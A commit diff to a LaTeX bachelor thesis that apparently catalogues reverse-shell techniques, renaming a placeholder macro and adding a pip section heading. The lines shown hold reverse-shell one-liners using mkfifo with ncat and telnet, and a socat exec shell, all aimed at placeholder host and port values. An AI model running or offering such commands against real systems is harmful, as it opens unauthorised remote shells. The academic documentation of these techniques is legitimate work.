

Before and after one commit to matusbucher/bachelor-thesis, a LaTeX thesis (thesis/main.tex, which reads thesis/chapters/chapter01.tex): part of page 23 of 33 before the commit and two parts of pages 23 and 26 of 33 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Change FILE to TMP

```diff
--- a/thesis/chapters/chapter01.tex
+++ b/thesis/chapters/chapter01.tex
@@ -84,7 +84,7 @@
 \notte{Standard error output of executed commands is not redirected to the socket. Option \texttt{-c} (\texttt{-{}-sh-exec}) can be used instead of \texttt{-e} with the same syntax, but \texttt{/bin/sh} is needed in that case.}
 
 \begin{cmdline}{bash}{^}{mkfifo,ncat}{}
-mkfifo ^\file^; ^\shell^ < ^\file^ 2>&1 | ncat ^\host^ ^\port^ > ^\file^; rm ^\file^
+mkfifo ^\tmp^; ^\shell^ < ^\tmp^ 2>&1 | ncat ^\host^ ^\port^ > ^\tmp^; rm ^\tmp^
 \end{cmdline}
 \dpd{\texttt{mkfifo}}
 
@@ -96,7 +96,7 @@
 \notte{The socket with port number \port\ serves as standard input while the socket with port number \portt\ serves as standard output and standard error output.}
 
 \begin{cmdline}{bash}{^}{mkfifo,telnet}{}
-mkfifo ^\file^; ^\shell^ < ^\file^ 2>&1 | telnet ^\host^ ^\port^ > ^\file^; rm ^\file^
+mkfifo ^\tmp^; ^\shell^ < ^\tmp^ 2>&1 | telnet ^\host^ ^\port^ > ^\tmp^; rm ^\tmp^
 \end{cmdline}
 \dpd{\texttt{mkfifo}}
 
@@ -200,3 +200,5 @@
 socat tcp-connect:|\host|:|\port| exec:|\shell|,pty,stderr,setsid,sigint,sane
 \end{cmdline}
 \TODO{dependencies, explain "optional" settings (pty,stderr,...)}
+
+\subsection{PIP (\texttt{pip}) \& Easy Install (\texttt{easy\_install})}
--- a/thesis/main.tex
+++ b/thesis/main.tex
@@ -53,7 +53,7 @@
 \newcommand{\host}{\textcolor{placeholder}{\texttt{$\langle$HOST$\rangle$}}}
 \newcommand{\port}{\textcolor{placeholder}{\texttt{$\langle$PORT$\rangle$}}}
 \newcommand{\portt}{\textcolor{placeholder}{\texttt{$\langle$PORT2$\rangle$}}}
-\newcommand{\file}{\textcolor{placeholder}{\texttt{$\langle$FILE$\rangle$}}}
+\newcommand{\tmp}{\textcolor{placeholder}{\texttt{$\langle$TMP$\rangle$}}}
 
 \newenvironment{cmdframe}
 	{\begin{mdframed}[
```
Also changed, not shown: reverseshell/Makefile, thesis/chapters/chapter01.tex (2 more changed lines).
